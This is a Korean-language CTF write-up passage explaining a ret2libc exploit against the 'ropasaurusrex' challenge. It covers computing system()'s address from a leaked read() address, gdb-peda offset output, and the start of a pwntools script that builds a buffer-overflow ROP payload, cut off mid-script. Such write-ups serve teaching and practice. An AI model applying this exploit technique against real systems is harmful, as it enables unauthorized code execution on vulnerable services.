 

------



### 0x04 Exploit

먼저 생각해야 할 점은 Libc의 주소를 leak해야 하며, 이유는 system함수의 주소를 구하기 위함이다.

Libc에 주소를 구하는 방법은 여러가지 방법이 있겠다.

예를들어서 read함수의 주소를 구하고, 거기서 read함수의 offset을 빼면 Libc의 주소가 나온다.

그리고 Libc주소에 system함수의 offset을 더하면 system함수의 주소가 된다.

즉 코드로 설명하면

```python
libc_addr = read_addr - read_offset
system_addr = libc_addr + system_offset
```



또 다른 방법은 read주소와 system주소의 차이를 구한다.

그리고 read함수의 주소를 leak하고 그 차이를 더하거나 빼면 system함수가 주소가 된다.

```sh
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e40da0 <system>
gdb-peda$ p read
$2 = {<text variable, no debug info>} 0xf7edbb00 <read>
gdb-peda$ p/x 0xf7edbb00 - 0xf7e40da0
$3 = 0x9ad60
```

```python
system_addr = read_addr - 0x9ad60
```

어떤 방법을 사용하던 편한 것으로 사용하면된다.

필자는 2번째 방법을 사용하였다.



```python
from pwn import *

path = "./ropasaurusrex"

# prepare to exploit
read_plt = 0x804832c
read_got = 0x804961c
write_plt = 0x804830c
write_got = 0x8049614
read_system_offset = 0x9ad60
dummy = 0xdeadbeef
pppr = 0x080484b6
binsh = "/bin/sh"
binsh_len = len(binsh)

#p = remote("localhost", 7777)
p = process(path)
e = ELF(path)

# BoF
payload  = "A"*140

# read read_got leak
payload += p32(write_plt)
payload += p32(pppr)
```
